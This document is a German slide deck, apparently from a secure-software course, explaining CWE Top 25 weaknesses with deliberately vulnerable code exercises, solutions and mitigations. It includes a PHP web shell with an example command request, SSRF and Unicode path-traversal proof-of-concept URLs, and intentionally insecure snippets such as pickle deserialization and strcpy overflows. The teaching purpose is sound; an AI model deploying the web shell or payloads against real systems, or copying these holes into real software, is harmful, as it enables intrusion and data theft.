        :class: booktabs table-data-align-left table-header-align-left
        :header: Jahr, Position
        :width: 100%
        :widths: 40 60

        2024, #12
        2023, #6

CWE-20: Improper Input Validation
-------------------------------------------

.. deck::

    .. card::

        :Kurzbeschreibung:  Empfangene Eingaben oder Daten werden nicht nicht oder falsch validiert in Hinblick darauf, dass die Eingaben die Eigenschaften haben, die für eine sichere und korrekte Verarbeitung der Daten erforderlich sind.

        .. The product receives input or data, but it does not validate or incorrectly validates that the input has the properties that are required to process the data safely and correctly.

        :Wahrscheinlichkeit des Missbrauchs: Hoch
        :Betrifft: Verfügbarkeit, Vertraulichkeit, Integrität
        :Anwendungsbereiche:
            - Rohdaten - Strings, Zahlen, Parameter, Dateiinhalte, etc.
            - Metadaten - Information über die Rohdaten, wie zum Beispiel *Header* oder Größe

    .. card::

        .. rubric:: Zu verifizierende Werte und Eigenschaften

        .. class:: incremental-list dd-margin-left-6em

        :Größen: Z. B. Länge, Häufigkeit, Preis, Rate, Anzahl der Vorgänge, Zeit usw.
        :Implizite oder abgeleitete Größen: Z. B. die tatsächliche Größe einer Datei anstelle einer angegebenen Größe.
        :Indizes*: Offsets oder Positionen in komplexeren Datenstrukturen.
        :Schlüssel: Z. B. von Hashtabellen oder assoziativen Feldern.
        :Syntaktische Korrektheit: Übereinstimmung mit der erwarteten Syntax.
        :Konsistenz: Z. B. zwischen den Rohdaten und Metadaten oder zwischen Referenzen.
        :Semantische Korrektheit: Z. B. Konformität mit domänenspezifischen Regeln, z. B. Geschäftslogik.
        :Authentizität: Z. B. von kryptografischen Signaturen.

    .. card::

        .. rubric:: O'Reilly ist keine SQL Injection

        .. observation::

            Ein Name wie ``O'Reily`` stellt ein Problem dar, wenn er in ein SQL Statement eingefügt wird, sollte jedoch von der Anwendung verarbeitet werden können und die Eingabevalidierung passieren.

        .. hint::
            :class: incremental

            Die Validierung muss immer in Hinblick auf den Kontext erfolgen.

    .. card::

        .. exercise:: Partielle Validierung in C

            .. code:: c
                :number-lines:

                #define MAX_DIM 100
                int m,n, error; /* m,n = board dimensions */
                board_square_t *board;
                printf("Please specify the board height: \n");
                error = scanf("%d", &m);
                if ( EOF == error ) die("No integer passed!\n");
                printf("Please specify the board width: \n");
                error = scanf("%d", &n);
                if ( EOF == error ) die("No integer passed!\n");
                if ( m > MAX_DIM || n > MAX_DIM ) die("Value too large!\n");

                board = (board_square_t*) malloc( m * n * sizeof(board_square_t));
                ...

            .. warning::
                :class: incremental

                Ein vergleichbares Problem ist auch in sicheren Programmiersprachen möglich.

            .. solution::
                :pwd: Allokation

                Das Problem ist, dass n und m nicht vollständig validiert werden. Sind die Werte negativ, dann wird ggf. sehr viel Speicher alloziert oder das Programm stürzt ab.

    .. card::

        .. rubric:: Abhilfemaßnahmen und Erkennung

        .. class:: incremental-list

        - (begrenzt) Statische Analyse Werkzeuge
        - Manuelle statische Analyse insbesondere in Hinblick auf die zugrundeliegende Semantik
        - Dynamische Analyse mit Fuzzing

.. class:: new-subsection transition-move-to-top

CWE-125: Out-of-bounds Read
-------------------------------------------
.. container:: section-subtitle

    .. rubric:: CWE Rank

    .. csv-table::
        :class: booktabs table-data-align-left table-header-align-left
        :header: Jahr, Position
        :width: 100%
        :widths: 40 60

        2024, #6
        2023, #7

CWE-125: Out-of-bounds Read
-------------------------------------------

.. deck::

    .. card::

        :Kurzbeschreibung: Daten vor oder nach einem Puffer werden gelesen.

        .. The product reads data past the end, or before the beginning, of the intended buffer.

        :Wahrscheinlichkeit des Missbrauchs: Hoch
        :Programmiersprachen: C, C++
        :Betrifft: Vertraulichkeit
        :Auswirkungen: Umgehung von Schutzmaßnahmen; Lesen von Speicher

        .. supplemental::

            Die Ausnutzung dieser Schwachstelle ist häufig schwierig, da nicht immer bekannt ist welche und wie viele Daten gelesen werden können. Es kann allerdings möglich sein Speicheradressen auszulesen. Dies kann ggf. genutzt werden, um Mechanismen wie ASLR zu umgehen.

    .. card::
        
        .. exercise:: Partielle Validierung in C

            .. code:: C
                :number-lines:

                int getValueFromArray(int *array, int len, int index) {
                    int value;

                    // check that the array index is less than the maximum length of the array
                    if (index < len) {
                        // get the value at the specified index of the array
                        value = array[index];
                    }
                    // if array index is invalid then output error message
                    // and return value indicating error
                    else {
                        printf("Value is: %d\n", array[index]);
                        value = -1;
                    }
                    return value;
                }

            .. solution::
                :pwd: index

                Der Wert von :code:`index` wird nicht gegen zu kleine Werte validiert. Der Angreifer kann so beliebige Speicherbereiche auslesen.

    .. card::

        .. rubric:: Abhilfemaßnahmen und Erkennung

        .. class:: incremental-list

        - eine sichere Programmiersprache verwenden
        - Fuzzing
        - Statische Analyse Werkzeuge welche Kontroll- und Datenflussanalyse durchführen

.. class:: new-subsection transition-move-to-top

CWE-22: Improper Limitation of a Pathname to a Restricted Directory (*Path Traversal*)
-------------------------------------------------------------------------------------------
.. container:: section-subtitle

    .. rubric:: CWE Rank

    .. csv-table::
        :class: booktabs table-data-align-left table-header-align-left
        :header: Jahr, Position
        :width: 100%
        :widths: 40 60

        2024, #5
        2023, #8

CWE-22: *Path Traversal*
----------------------------------------------------------------------------

.. deck::

    .. card::

        :Kurzbeschreibung:  Externe Eingaben werden für die Konstruktion eines Pfadnamens verwendet, der eine Datei oder ein Verzeichnis identifizieren soll, das sich unterhalb eines eingeschränkten übergeordneten Verzeichnisses befindet. Eine Bereinigung spezieller Elemente innerhalb des Pfadnamens erfolgt jedoch nicht ordnungsgemäß, was dazu führen kann, dass der Pfadname zu einem Ort außerhalb des eingeschränkten Verzeichnisses aufgelöst wird.

        .. The product uses external input to construct a pathname that is intended to identify a file or directory that is located underneath a restricted parent directory, but the product does not properly neutralize special elements within the pathname that can cause the pathname to resolve to a location that is outside of the restricted directory.

        :Wahrscheinlichkeit des Missbrauchs: Hoch
        :Betrifft: Vertraulichkeit, Integrität, Verfügbarkeit

    .. card::

        .. exercise:: Path Traversal aufgrund fehlender Validierung
            :formatted-title: *Path Traversal* aufgrund fehlender Validierung

            **PHP**

            .. code:: php
                :number-lines:

                <?php
                $file = $_GET['file'];
                include("/home/www-data/$file");
                ?>

            .. solution::
                :pwd: no_validation_of_file

                Das Problem ist, dass der Wert von :code:`file` nicht validiert wird. Der Angreifer kann so beliebige Dateien auslesen.

    .. card::

        .. exercise:: Path Traversal aufgrund partieller Validierung
            :formatted-title: *Path Traversal* aufgrund partieller Validierung

            .. compound:: 

                **Perl**

                .. code:: Perl
                    :number-lines:

                    my $Username = GetUntrustedInput();
                    $Username =~ s/\.\.\///;                # Remove ../
                    my $filename = "/home/user/" . $Username;
                    ReadAndSendFile($filename);

            .. compound:: 
                :class: incremental

                **Java**

                .. code:: java
                    :number-lines:

                    String path = getInputPath();
                    if (path.startsWith("/safe_dir/")) {
                        File f = new File(path);
                        f.delete()
                    }

            .. solution::
                :pwd: Perl-oh-Perl!

                - Problem im Perl Beispiel: :code:`Username` wird nur bzgl. ../ am Anfang der Zeichenkette gesäubert. Beginnt der Nutzername mit :code:`../../` dann kann der Angreifer dennoch zum darüber liegenden Verzeichnis wechseln. Es fehlt im Wesentlichen das :code:`g` Flag (vgl. Reguläre Ausdrücke in ``sed``)

                - Problem im Java Beispiel: Auch in diesem Falle wird zwar der Anfang geprüft, d. h. ob der Pfad mit :code:`/safe_dir/` beginnt, aber dies verhindert nicht, dass der Pfad im Weiteren :code:`../` verwendet und der Angreifer darüber zu einem höherliegenden Verzeichnis wechseln kann.

    .. card::

        .. rubric:: Schwachstellen leichtgemacht: verwirrende Python API\ [#]_

        .. grid::

            .. cell::

                .. code:: Python
                    :number-lines:

                    import os
                    import sys
                    def main():
                      filename = sys.argv[1]
                      path = os.path.join(os.getcwd(),
                                        filename)
                      try:
                        with open(path, 'r') as f:
                          file_data = f.read()
                      except FileNotFoundError as e:
                        print("Error - file not found")

                    # do something with file_data

            .. cell:: incremental

                .. epigraph::

                    **Dokumentation os.path.join**

                    Join one or more path components intelli- gently. The return value is the concatenation of path and any members of \*paths with ex- actly one directory separator following each non-empty part except the last, meaning that the result will only end in a separator if the last part is empty.                     *If a component is an absolute path [...], all previous components are thrown away and joining continues from the absolute path component.*

                    -- `Python 3.11.7 <https://docs.python.org/3.11/library/os.path.html#os.path.join>`__

        .. [#] Verwirrende APIs gibt es in praktischen allen Sprachen!

    .. card::

        .. rubric:: Abhilfemaßnahmen und Erkennung

        .. class:: incremental-list

        - Eingabe vollständig validieren; zum Beispiel über kanonische Pfade
        - Sandboxen
        - Umgebung härten
        - Bei Fehlerausgaben darauf achten, dass keine Informationen über das Dateisystem preisgegeben werden
        - den Code mit minimalen Rechten ausführen

.. class:: new-subsection transition-move-to-top

CWE-352: Cross-Site Request Forgery (*CSRF*)
-------------------------------------------------------------------------------------------

.. container:: section-subtitle

    .. rubric:: CWE Rank

    .. csv-table::
        :class: booktabs table-data-align-left table-header-align-left
        :header: Jahr, Position
        :width: 100%
        :widths: 40 60

        2024, #4
        2023, #9

CWE-352: Cross-Site Request Forgery
----------------------------------------------------------------------------

.. deck::

    .. card::

        :Kurze Beschreibung:

            Die Webanwendung prüft nicht bzw. kann nicht prüfen, ob eine Anfrage absichtlich von dem Benutzer gestellt wurde, von dessen Browser sie übermittelt wurde.

            D. h. eine CSRF Schwachstelle nutzt das Vertrauen aus, das eine Webseite in den Browser eines Nutzers hat. Bei einem CSRF-Angriff wird ein legitimer Nutzer von einem Angreifer dazu gebracht, ohne sein Wissen eine Anfrage zu übermitteln, die er nicht beabsichtigt hat und auch nicht bemerkt.

        :Missbrauchswahrscheinlichkeit: Mittel
        :Auswirkung: Hängt von den Nutzerrechten ab
        :Ausmaß: Vertraulichkeit, Integrität, Verfügbarkeit

    .. card::

        .. rubric::  Ursprüngliche Form

        .. image:: images/csrf.svg
            :alt: Cross-Site Request Forgery (CSRF) - ursprüngliche Form

        .. supplemental::

            .. rubric:: Hintergrundwissen

            Ursprünglich (d. h. für Cookies ohne modernes SameSite Attribut) war es so, dass ein Browser, immer wenn auf einen Seite zugegriffen wurde (z. B. mittels POST/GET Requests oder Fetch Zugriffe), dieser alle aktuellen Cookies bzgl. der Zieldomain mitgesendet hat. Dies galt unabhängig vom Browsertab/der Website aus dem der Zugriff heraus erfolgte. Dies konnte eine Angreiferwebseite im Rahmen von Cross-Site Request Forgery Attacken ausnutzen, um  authentifizierte Aktionen im Namen des Opfers auszuführen.

    .. card::

        .. rubric:: Cross-Site Request Forgery (CSRF) in 2023

        .. epigraph::

            Fiber ist ein von Express inspiriertes Web-Framework, das in Go geschrieben wurde. In der Anwendung wurde eine Cross-Site Request Forgery (CSRF)-Schwachstelle entdeckt, die es einem Angreifer ermöglicht, beliebige Werte zu injizieren und bösartige Anfragen im Namen eines Benutzers zu fälschen. Diese Schwachstelle kann es einem Angreifer ermöglichen, beliebige Werte ohne Authentifizierung einzuschleusen oder verschiedene böswillige Aktionen im Namen eines authentifizierten Benutzers durchzuführen, wodurch die Sicherheit und Integrität der Anwendung gefährdet werden kann. Die Schwachstelle wird durch eine unsachgemäße Validierung und Durchsetzung von CSRF-Tokens innerhalb der Anwendung verursacht.

            -- `CVE-2023-45128 <https://nvd.nist.gov/vuln/detail/CVE-2023-45128>`__ (übersetzt mit DeepL)

        .. supplemental::

            .. rubric:: `CVE-2023-45128 <https://nvd.nist.gov/vuln/detail/CVE-2023-45128>`__ 

            .. remark::

                Identifizierte Schwachstellen: *CWE-20* Improper Input Validation, *CWE-807* Reliance on Untrusted Inputs in a Security Decision, *CWE-565* Reliance on Cookies without Validation and Integrity Checking, *CWE-352* Cross-Site Request Forgery

    .. card::

        .. rubric:: Standardtechniken, die CSRF in 2023 verhindern *sollen*

        .. class:: incremental-list

        - Same-site Cookies (für Authentifizierung)
        - CSRF-Tokens, wenn diese die folgenden Eigenschaften haben:

          - Einmalig pro Nutzersession
          - Geheim
          - nicht vorhersagbar (z. B. eine sehr große, sicher erzeugte Zufallszahl)

        - Validierung des Referer-Header
        - Custom Request Header, da diese nur vom JavaScript Code gesetzt werden können, der den gleichen Ursprung hat (siehe *Same Origin Policy* (SOP)).

        .. container:: incremental foundations

            Auch diese Techniken lassen sich ggf. (alle zusammen) aushebeln, `wenn die Anwendung weitere Schwachstellen aufweist <https://portswigger.net/web-security/csrf>`__. So gibt/gab es Anwendungen, die Anfragen, die nur über ein POST request gestellt werden sollten, auch bei einem GET akzeptiert haben.

        .. supplemental::

            In allen Browsern wird in der Zwischenzeit für Cookies die Same-site Policy angewandt mit dem Wert :code:`Lax`. Dieser Wert hat zur Folge, dass Cookies nur dann gesendet werden, wenn der Nutzer explizit auf einen Link klickt oder sich innerhalb derselben Seite befindet.

.. class:: new-subsection transition-move-to-top

CWE-434: Unrestricted Upload of File with Dangerous Type
-------------------------------------------------------------------------------------------

.. container:: section-subtitle

    .. rubric:: CWE Rank

    .. csv-table::
        :class: booktabs table-data-align-left table-header-align-left
        :header: Jahr, Position
        :width: 100%
        :widths: 40 60

        2024, #10
        2023, #10

CWE-434: Unrestricted Upload of File with Dangerous Type
----------------------------------------------------------------------------

.. deck::

    .. card::

        :Kurze Beschreibung:

            Es ist möglich potentiell gefährliche Dateien hochzuladen bzw. zu transferieren, die von der Anwendung automatisch im Kontext der Anwendung verarbeitet werden.

        :Missbrauchswahrscheinlichkeit: Mittel
        :Auswirkung: Bis hin zur Ausführung von beliebigen Befehlen
        :Ausmaß: Vertraulichkeit, Integrität, Verfügbarkeit

    .. card::

        .. exercise:: Unrestricted Uploads in PHP

            HTML:

            .. code:: HTML
                :number-lines:

                <form action="upload_picture.php" method="post" enctype="multipart/form-data">
                    Choose a file to upload:
                    <input type="file" name="filename"/>
                     
                    <input type="submit" name="submit" value="Submit"/>
                </form>

            PHP:

            .. code:: PHP
                :number-lines:

                // Define the target location where the picture being
                // uploaded is going to be saved.
                $target = "pictures/" . basename($_FILES['uploadedfile']['name']);

                // Move the uploaded file to the new location.
                move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target)

            .. solution::
                :pwd: upload

                Problem: Die Datei :code:`$_FILES['uploadedfile']['name']` wird nicht validiert. Sollte der Nutzer statt einem Bild eine PHP Datei hochladen, dann wird diese beim einem späteren Aufruf im Kontext der Anwendung ausgeführt.

                Eine einfache Möglichkeit die Schwachstelle auszunutzen wäre die Datei:

                    .. code:: PHP

                        // malicious.php

                        <?php
                        system($_GET['cmd']);
                        ?>

                    Mit einer Anfrage wie:

                        ``...malicious.php?cmd=ls%20-l``

    .. card::

        .. rubric:: Abhilfemaßnahmen und Erkennung

        .. class:: incremental-list

        - Beim Speichern von Dateien niemals den ursprünglichen Dateinamen verwenden sondern einen vom Server generierten.
        - Speicher die Daten nicht im Kontext der Webanwendung sondern außerhalb des Webroots.
        - Prüfe die Dateiendung. Prüfe den Inhalt der Datei gegen die Erwartung.
        - Ausführen der Webanwendung mit minimalen Rechten.
        - Sandbox.

.. class:: new-subsection transition-move-to-top

CWE-122: Heap-based Buffer Overflow
-------------------------------------------------------------------------------------------

.. container:: section-subtitle

    .. rubric:: CWE Rank

    .. csv-table::
        :class: booktabs table-data-align-left table-header-align-left
        :header: Jahr, Position in CWE, Position in KEV 
        :width: 100%
        :widths: 40 30 30

        2024, (Nicht in den Top 25), (Nicht in den Top 10)
        2023, (Nicht in den Top 25), #2

CWE-122: Heap-based Buffer Overflow
------------------------------------------------------

.. deck::

    .. card::

        :Kurze Beschreibung:

            Ein Pufferüberlauf, bei dem der Puffer, der überschrieben wird, auf dem Heap alloziiert wurde, was im Allgemeinen bedeutet, dass der Puffer mit einer Routine wie :c:`malloc()` allloziiert wurde.

        :Missbrauchswahrscheinlichkeit: Hoch
        :Sprachen: C/C++
        :Auswirkung: Bis hin zur Ausführung von beliebigen Befehlen
        :Ausmaß: Vertraulichkeit, Integrität, Verfügbarkeit, Zugriffskontrolle

    .. card::

        .. exercise:: Heap-based Buffer Overflow: „Basisbeispiel“ in C

            .. code:: C
                :number-lines:

                #define BUFSIZE 256
                int main(int argc, char **argv) {
                    char *buf;
                    buf = (char *)malloc(sizeof(char)*BUFSIZE);
                    strcpy(buf, argv[1]);
                }

            .. solution::
                :pwd: buf-to-small

                Problem: Die Größe von ``buf`` ist unabhängig von der Größe von :code:`argv[1]`.

    .. card::

        .. rubric:: Abhilfemaßnahmen und Erkennung

        - Verwendung einer sicheren Programmiersprache
        - Verwendung von sicheren APIs
        - Kompilierung unter Verwendung entsprechender Schutzmechanismen (Position-Independent Executables (PIE), Canaries, ...)
        - Härtung der Umgebung (z. B. ASLR)
        - Statische Analyse Werkzeuge
        - Fuzzing

.. class:: new-subsection transition-move-to-top

CWE-502: Deserialization of Untrusted Data
--------------------------------------------------------------------------------

.. container:: section-subtitle

    .. rubric:: CWE Rank

    .. csv-table::
        :class: booktabs table-data-align-left table-header-align-left
        :header: Jahr, Position in CWE, Position in KEV 
        :width: 100%
        :widths: 40 30 30

        2024, 16, `#5 <https://cwe.mitre.org/top25/archive/2024/2024_kev_list.html>`__
        2023, 15, `#6 <https://cwe.mitre.org/top25/archive/2023/2023_kev_list.html>`__

CWE-502: Deserialization of Untrusted Data
------------------------------------------------------

.. deck::

    .. card::
                

        :Kurze Beschreibung:

            Nicht vertrauenswürdige Daten werden deserialisiert ohne - *je nach Bibliothek notwendige vorhergehende* - Prüfung, dass die Daten die erwarteten Eigenschaften haben.

        :Missbrauchswahrscheinlichkeit: Mittel
        :Sprachen: Java, Ruby, Python, PHP, JavaScript, ...
        :Ausmaß: Insbesondere: Integrität und Verfügbarkeit (DoS); weitere Effekte sind vom Kontext abhängig.

        :Alternative Begriffe: (Un-)Marshalling, (Un-)Pickling

        .. supplemental::

            Bei der Serialisierung werden programminterne Objekte so verpackt, dass die Daten extern gespeichert und/oder übertragen werden können. Die Deserialisierung kehrt diesen Prozess um.

    .. card::

        .. example:: Java

            .. code:: java
                :number-lines:

                File file = new File("object.obj");
                try ( FileInputStream fin = new FileInputStream(file);
                    ObjectInputStream oin = new ObjectInputStream(fin)
                    ) {
                    javax.swing.JButton button = (javax.swing.JButton) oin.readObject();
                    ...
                }

        .. supplemental::

            Im Java Beispiel wird ein Objekt aus einer Datei gelesen und in eine Variable vom Typ :java:`javax.swing.JButton` geschrieben. Der Typ des Objekts wird nicht geprüft. Es ist möglich, dass die Datei ein Objekt enthält, welches vom Typ :java:`javax.swing.JButton` ist, aber nicht die Eigenschaften hat, die ein Button haben sollte. In diesem Fall wird keine Exception geworfen, aber das Objekt kann nicht wie erwartet verwendet werden bzw. es kommt zur Ausführung von beliebigem Code.

    .. card::

        .. exercise:: Deserialization of Untrusted Data in Python

            .. code:: Python
                :number-lines:

                class ExampleProtocol(protocol.Protocol):

                    def dataReceived(self, data):
                        # ... parse the incoming data and
                        # after receiving headers, call confirmAuth() to authenticate

                    def confirmAuth(self, headers):
                        try:
                            token = cPickle.loads(base64.b64decode(headers['AuthToken']))
                            if not check_hmac(token['signature'], token['data'], getSecretKey()):
                                raise AuthFail
                            self.secure_data = token['data']
                        except:
                            raise AuthFail

            .. solution::
                :pwd: PicklingAtItsBest

                In diesem Fall könnte man der Funktion ein Objekt unterschieben, dass bei der Deserialisierung beliebigen Code ausführt (zum Beispiel, um einen weitere Prozess zu starten).

                Dieses Problem wird in der Dokumentation auch explizit erwähnt:

                .. epigraph::

                    **Warning The pickle module is not secure**. Only unpickle data you trust.
                    It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.

                    -- `Python 3.12 <https://docs.python.org/3/library/pickle.html>`__

    .. card::

        .. rubric:: Abhilfemaßnahmen und Erkennung

        - ggf. Einsatz von Signaturen, um sicherzustellen, dass der serialisierte Code nicht manipuliert wurde
        - Serialisiere nur Daten, die auch wirklich serialisiert werden müssen
        - Verwendung von sicheren Formaten (z. B. JSON)
        - statische Analyse

        .. supplemental::

            Empfohlene Lektüre: `Deserialization Vulnerabilities <https://portswigger.net/web-security/deserialization>`__

.. class:: new-subsection transition-move-to-top

CWE-918: Server-Side Request Forgery (SSRF)\ [#]_
--------------------------------------------------------------------------------

.. container:: section-subtitle

    .. rubric:: CWE Rank

    .. csv-table::
        :class: booktabs table-data-align-left table-header-align-left
        :header: Jahr, Position in CWE, Position in KEV 
        :width: 100%
        :widths: 40 30 30

        2024, 19, (nicht in den Top 10)
        2023, 19, `#7 <https://cwe.mitre.org/top25/archive/2023/2023_kev_list.html>`__

.. [#] ≈ :ger:`Serverseitige Anfragefälschung`

CWE-918: Server-Side Request Forgery
------------------------------------------------------

.. deck::

    .. card::

        :Kurze Beschreibung:
            Der Webserver erhält eine URL oder eine ähnliche Anfrage und ruft den Inhalt dieser URL ab, stellt aber nicht sicher, dass die Anfrage an das erwartete Ziel gesendet wird.

        :Technologien: Webserver
        :Ausmaß: Vetraulichkeit, Integrität

    .. card::

        .. image:: images/ssrf.svg
            :alt: Server-Side Request Forgery (SSRF)

    .. card:::

        .. example:: CVE-2002-1484

            :Beschreibung:
                Wenn der DB4Web-Server so konfiguriert ist, dass er ausführliche Debug-Meldungen verwendet, können entfernte Angreifer DB4Web als Proxy verwenden und über eine Anfrage an eine URL, die die Ziel-IP-Adresse und den Port angibt, TCP-Verbindungen zu anderen Systemen (Port-Scan) versuchen, was einen Verbindungsstatus in der resultierenden Fehlermeldung erzeugt.

            .. class:: incremental-list

            :PoC: http://127.0.0.1/DB4Web/172.31.93.30:22/foo

            :Workaround:
                Um die Ausnutzung dieses Features zu verhindern, muss die Standardfehlerseite durch eine benutzerdefinierte ersetzt werden.

                .. container:: peripheral

                    Der Hersteller betrachtet die Funktionalität nicht als Fehler, sondern als Feature für Entwickler.

    .. card::

        .. example::  Unicode Handling Fehler [#]_ im JavaScript NodeJS Framework

            .. code:: JavaScript
                :number-lines:

                var base = "http://orange.tw/sandbox/";
                var path = req.query.path;
                if (path.indexOf("..") == -1) { // check for no directory traversal
                    http.get(base + path, callback);
                }

            .. container:: incremental

                Beispiel URL (*U+FF2E Full width Latin capital letter N*):

                .. code:: restructuredtext
                    :class: incremental

                    http://orange.tw/sandbox/ＮＮ/passwd

                .. code:: restructuredtext
                    :class: incremental

                    ≙ http://orange.tw/sandbox/\xFF\x2E\xFF\x2E/passwd

                .. code:: restructuredtext
                    :class: incremental

                    ≙ http://orange.tw/sandbox/\x2E\x2E/passwd

                .. code:: restructuredtext
                    :class: incremental

                    ≙ http://orange.tw/sandbox/../passwd

            .. [#] `Exploiting URL Parsers <https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf>`__

    .. card::

        .. rubric:: URL Parser vs. Abfrage der URL in PHP (> 7.0.13):

        .. code:: javascript
            :number-lines:

            $url = 'http://foo@127.0.0.1⬜@google.com:11211/'; // ⬜ is "just" a space
            $parsed = parse_url($url);
            var_dump($parsed[host]); // string(10) "google.com"
            var_dump($parsed[port]); // int(11211)
            curl($url);

        Ergebnis:

        .. class:: incremental-list

        - ``curl`` fragt die URL ``127.0.0.1:11211`` ab.

        - D. h. ``curl`` und php interpretieren die URL unterschiedlich.

    .. card::

        .. rubric:: Variante: Blind SSRF

        Bei *Blind SSRF*-Schwachstellen werden auch Back-End-HTTP-Anfragen an eine bereitgestellte URL gestellt, die Antwort der Back-End-Anfrage jedoch nicht an die Front-End-Antwort der Anwendung zurückgegeben.

        .. supplemental::

            Empfohlene Lektüre: `Blind Server-Side Request Forgery (SSRF) <https://portswigger.net/web-security/ssrf/blind>`__

    .. card::

        .. rubric:: Abhilfemaßnahmen und Erkennung

        - keine (Wieder-)Verwendung der Eingabe URL
        - sichere APIs
        - statische Analyse (insbesondere Datenflußanalysen)
        - Behandlung von Zugriffen von lokalen Maschinen sollte mit der gleichen sorgfalt überprüft werden wie Zugriffe von externen Maschinen; andernfalls können kritische SSRF Angriffe durchgeführt werden
        - Firewall/Network Policy, um Zugriff auf interne Systeme zu verhindern

.. class:: new-subsection transition-move-to-top

CWE-843: Access of Resource Using Incompatible Type (*Type Confusion*)
------------------------------------------------------------------------------

.. container:: section-subtitle

    .. rubric:: CWE Rank

    .. csv-table::
        :class: booktabs table-data-align-left table-header-align-left
        :header: Jahr, Position in CWE, Position in KEV 
        :width: 100%
        :widths: 40 30 30

        2024, (nicht in den Top 25), `#2 <https://cwe.mitre.org/top25/archive/2024/2024_kev_list.html>`__
        2023, (nicht in den Top 25), `#8 <https://cwe.mitre.org/top25/archive/2023/2023_kev_list.html>`__

CWE-843: *Type Confusion*
----------------------------------------------------------------------

.. deck::

    .. card::

        :Beschreibung:

                Eine Anwendung initialisiert eine Ressource mit einem bestimmten Typ (z. B. Zeiger (:eng:`Pointer`), Objekt, etc.). Später wird auf die Ressource (Variable) dann mit einem anderen Typ zugegriffen.

        :Sprachen: insbesondere (aber nicht ausschließlich) C/C++; im Prinzip in jeder Sprache, die automatische Typkonvertierungen durchführt.
        :Ausmaß: Integrität, Verfügbarkeit, Vertraulichkeit

    .. card::

        .. exercise:: Type Confusion in C

            .. code:: c
                :number-lines:

                #define NAME_TYPE 1

                struct MessageBuffer { int msgType; 
                                       union { char *name; int nameID; }; };

                int main (int argc, char **argv) {
                    struct MessageBuffer buf;
                    char *defaultMessage = "Hello World";
                    buf.msgType = NAME_TYPE;
                    buf.name = defaultMessage;              // printf("*buf.name %p", buf.name);
                    buf.nameID = (int)(defaultMessage + 1); // printf("*buf.name %p", buf.name);
                    if (buf.msgType == NAME_TYPE) printf("%s\n", buf.name);
                    else                          printf("ID %d\n", buf.nameID);
                }

            Welche Ausgabe erzeugt das Programm?

            .. solution::
                :pwd: bufbuf

                Der Zugriff auf ``buf.nameId`` manipuliert den Zeiger auf ``buf.name``. Dieser zeigt nun auf die Speicherstelle ``defaultMessage + 1`` weswegen der nachfolgende Zugriff ``buf.name`` „nur“ noch ``ello World`` ausgibt und nicht mehr ``Hello World``.

    .. card::

        .. exercise:: Type Confusion in Perl

            .. code:: perl
                :number-lines:

                my $UserPrivilegeArray = ["user", "user", "admin", "user"];
                my $userID = get_current_user_ID();
                if ($UserPrivilegeArray eq "user") {
                    print "Regular user!\n";
                }
                else {
                    print "Admin!\n";
                }

                print "\$UserPrivilegeArray = $UserPrivilegeArray\n";

            .. solution::
                :pwd: Zuviel ist zuviel

                In der Zeile: :code:`if ($UserPrivilegeArray eq "user")` wurde vergesen die Indizierung (:code:`$userID`) zu verwenden (:code:`$UserPrivilegeArray->{$userID}`). Es wird also das Array als Ganzes mit dem String ``user`` verglichen und der Vergleich ist immer ``falsch (:eng:`false`)``.

.. class:: new-subsection transition-move-to-top

CWE-306: Missing Authentication for Critical Function
--------------------------------------------------------------------------------

.. container:: section-subtitle

    .. rubric:: CWE Rank

    .. csv-table::
        :class: booktabs table-data-align-left table-header-align-left
        :header: Jahr, Position in CWE, Position in KEV 
        :width: 100%
        :widths: 40 30 30

        2024, #25, `#7 <https://cwe.mitre.org/top25/archive/2024/2024_kev_list.html>`__
        2023, #20, `#10 <https://cwe.mitre.org/top25/archive/2023/2023_kev_list.html>`__

CWE-306: Missing Authentication for Critical Function
----------------------------------------------------------------------

.. deck::

    .. card::

        :Beschreibung:

            Eine Anwendung führt eine kritische Funktion aus, ohne die Identität des Nutzers zu überprüfen. Kritische Funktionen sind solche, die entweder signifikante Ressourcen verbrauchen oder nur von privilegierten Nutzern ausgeführt werden sollten.

        :Sprachen: "alle"

    .. card::
        
        .. rubric:: Abhilfemaßnahmen und Erkennung

        .. class:: incremental-list

        - manuelle Code Reviews
        - statische Analyse (Binärcode und/oder Quellcode)

.. class:: new-section transition-scale

Anmerkungen/Dies und Das
--------------------------

.. class:: s-vertical-title

Dump C /  C++
---------------------

.. image:: screenshots/dump_c_c++_2024_02_27.webp
    :alt: Dump C / C++
    :align: center
    :class: screenshot

.. class:: s-vertical-title

C++ is missjudged by the White House
---------------------------------------

.. class:: new-section transition-fade

Open Worldwide Application Security Project (OWASP)
----------------------------------------------------------------------

OWASP
-----------------------------------------------------------------------

.. class:: incremental-list

- gemeinnützige Stiftung, die sich für die Verbesserung der Sicherheit von Software einsetzt
- 2001 gegründet
- weltweit tätig
- Stellt insbesondere Foren, Dokumente und Werkzeuge bereit
- Dokumente, die bei der Entwicklung sicherer Anwendungen unterstützen:

  - `OWASP Web Security Testing Guide <https://owasp.org/www-project-web-security-testing-guide/>`__
  - `OWASP Code Review Guide <https://owasp.org/www-project-code-review-guide/>`__
- Ausgewählte Projekte:

  .. class:: incremental-list

  - `OWASP Top 10 (die relevantesten Sicherheitsprobleme bei Webanwendungen) <https://owasp.org/www-project-top-ten/>`__
  - `Cheat Sheets <https://owasp.org/www-project-cheat-sheets/>`__
  - `OWASP Dependency-Track <https://owasp.org/www-project-dependency-track/>`__
  - `OWASP Web Security Testing Guide <https://owasp.org/www-project-web-security-testing-guide/>`__

.. class:: exercises

Übung: Schwachstelle(n)
-----------------------------------------------------------------------

.. scrollable::

  .. exercise:: malloc verstehen
    :formatted-title: :c:`malloc` verstehen

    1. Benenne die Schwachstelle(n) entsprechend der CWEs (ohne ID).
    2. Identifiziere die für die Schwachstelle(n) relevanten Zeilen im Code.
    3. Gebe - falls möglich - einen Angriffsvektor an.
    4. Skizziere mögliche Auswirkung der Schwachstelle(n) (z. B. Verlust der Vertraulichkeit, Integrität oder Verfügbarkeit; Umgehung der Zugriffskontrolle; beliebige Codeausführung, ...)

    .. code:: C
        :number-lines:

        #include <stdio.h>
        #include <string.h>
        void process(char *str) {
            char *buffer = malloc(16);
            strcpy(buffer, str);
            ...
            // ... definitively executed in the future: free(buffer);
        }
        int main(int argc, char *argv[]) {
            if (argc < 2) { printf("Usage: %s <string>\n", argv[0]); return 1; }
            process(argv[1]);
            return 0;
        }

